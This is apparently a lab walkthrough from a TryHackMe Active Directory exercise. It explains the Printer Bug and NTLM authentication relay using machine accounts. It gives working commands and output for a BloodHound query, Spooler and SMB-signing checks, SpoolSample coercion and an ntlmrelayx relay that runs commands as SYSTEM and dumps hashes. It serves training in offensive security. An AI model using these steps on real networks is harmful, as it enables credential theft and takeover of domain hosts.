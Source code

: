 
## General

Automated relays with machine accounts refer to a method where a machine or program is able to automatically access and control other machines or programs on the same Active Directory (AD) network using a machine account. This can be a vulnerability because it allows the machine or program to potentially access sensitive information or perform unauthorized actions on other machines or programs without the knowledge or consent of their users. Additionally, if the machine account is compromised, an attacker could use it to gain access to other machines or programs on the AD network. To mitigate this vulnerability, proper access controls and monitoring should be in place to limit the actions that machine accounts can perform, and to detect and respond to any suspicious activity.


## The Printer Bug
The printer bug is a "feature" of the MS-RPRN protocol (PrintSystem Remote Protocol), which allows a domain user to remotely force a target host running the Print Spooler service to authenticate to an arbitrary IP address.

This vulnerability is related to automated relays because it allows a machine or program to remotely access and control another machine or program on the same AD network using a machine account and valid AD credentials.

- Conditions
	Therefore, to exploit this, apart from machine account administrative privileges, we also need to meet the following four conditions :
	
	1.  A valid set of AD account credentials.
	2.  Network connectivity to the target's SMB service.
	3.  The target host must be running the Print Spooler service.
	4.  The hosts must not have SMB signing enforced.  
	    
	
	Condition 1 and 2 have been met already. The only two we need to ensure works are conditions 3 and 4.


## Commands

## Bloodhound
Bloodhound Custome Query (find instances where a computer has the "AdminTo" relationship over another computer)
```
MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer) RETURN p
```


## Printer Bug
Powershell (Query service (Win32_Printer) running on other machine in AD via WMI)
```
PS C:\> GWMI Win32_Printer -Computer MACHINE_DOMAIN

	Location      :
	Name          : Microsoft XPS Document Writer
	PrinterState  : 0
	PrinterStatus : 3
	ShareName     :
	SystemName    : THMSERVER2
	
	Location      :
	Name          : Microsoft Print to PDF
	PrinterState  : 0
	PrinterStatus : 3
	ShareName     :
	SystemName    : THMSERVER2
```
The output from the cmdlet verifies that the service is running. If we get an access denied error, you could perhaps attempt the PowerShell command of `Get-PrinterPort -ComputerName thmserver2.za.tryhackme.loc`


SMB Signing

In order to relay the coerced authentication attempt, SMB signing should not be enforced. It should be noted that there is a difference between SMB signing being allowed and SMB signing being enforced.

To verify that THMSERVER1 and THMSERVER2 do not have SMB signing enforced, we can use Nmap
```
nmap --script=smb2-security-mode -p445 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc

	Nmap scan report for distributor.za.tryhackme.loc (172.31.1.201)
	Host is up (0.62s latency).
	
	PORT    STATE SERVICE
	445/tcp open  microsoft-ds
	
	Host script results:
	| smb2-security-mode: 
	|   2.02: 
	|_    Message signing enabled but not required
	
	Nmap scan report for 172.31.1.202
	Host is up (0.38s latency).
	
	PORT    STATE SERVICE
	445/tcp open  microsoft-ds
	
	Host script results:
	| smb2-security-mode: 
	|   2.02: 
	|_    Message signing enabled but not required
	
	Nmap done: 2 IP addresses (2 hosts up) scanned in 4.59 seconds
```
We can see that SMB signing is enabled but not enforced based on the output. This means all our conditions are met, and we can start the attack!


Exploiting Authentication Relays

We will be using [SpoolSample](https://github.com/leechristensen/SpoolSample) to exploit the authentication relay.  We will use Spoolsample.exe to coerce THMSERVER2 to authenticate to us on our machine and then [Impacket](https://github.com/SecureAuthCorp/impacket)'s [ntlmrelayx.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) to relay the authentication attempt THMSERVER1.

Setup NTLM relay (Attacking Machine)
```
python3.9 ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -debug
```
If we specify the hostname of THMSERVER1 instead of the IP, the host could request that we use Kerberos authentication instead of NTLM

SSH session over the THMSERVER1 (Already own)
```
C:\>SpoolSample.exe THMSERVER2.za.tryhackme.loc "Local Attacker IP"
```

Output from the NTLM relay
```
thm$ python3.9 ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -c 'whoami /all' -debug
[*] Servers started, waiting for connections
[*] SMBD-Thread-5: Received connection from 172.31.1.202, attacking target smb://172.31.1.201
[*] Authenticating against smb://172.31.1.201 as ZA/THMSERVER2$ SUCCEED
[+] No more targets
[*] SMBD-Thread-7: Connection from 172.31.1.202 controlled, but there are no more targets left!
[+] No more targets
[*] SMBD-Thread-8: Connection from 172.31.1.202 controlled, but there are no more targets left!
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[+] ExecuteRemote command: %COMSPEC% /Q /c echo whoami /all ^> %SYSTEMROOT%\Temp\__output > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat
[*] Executed specified command on host: 172.31.1.201

USER INFORMATION

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner    
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                   
[...]
```
This output resembles what would happen if you used the `-c 'whoami /all'` command. However by specifying no command, you should now have performed a hashdump. These credentials can now be used to get a shell on the host!
